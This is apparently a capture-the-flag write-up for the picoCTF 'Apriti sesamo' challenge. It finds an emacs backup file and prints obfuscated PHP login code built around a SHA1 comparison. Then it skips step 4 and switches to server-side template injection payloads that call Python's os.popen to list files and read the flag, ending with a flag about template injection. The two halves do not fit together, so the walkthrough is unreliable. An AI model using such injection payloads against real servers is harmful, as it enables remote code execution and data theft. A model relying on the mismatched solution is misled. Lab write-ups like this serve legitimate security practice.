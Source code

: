 # Apriti sesamo
## Description: 
I found a web app that claims to be impossible to hack! Try it here!

## Hints:
1. Backup files
2. Rumor has it, the lead developer is a militant emacs user

### Solution
1. First, I quickly ChatGPT to find out what emacs file is about. _"File Encoding: Emacs sometimes generates backup files (filename~) or auto-save files (.#filename). Hidden information could be stored there."_
2. On the login page url, _http://verbal-sleep.picoctf.net:50313/impossibleLogin.php_, I try append the tilde character ~ and a backup _impossibleLogin.php~_ page is discovered.
3. Viewing the page source, we get the following php code for user authentication.
```
<?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?>

```

5. To dump all available built-in functions, try `{{self.__init__.__globals__.__builtins__}}`. Notice no blacklisting to user input.
6. To gain RCE and list available files, try `{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}`
7. Lastly, to read the flag, use `{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`
8. picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}
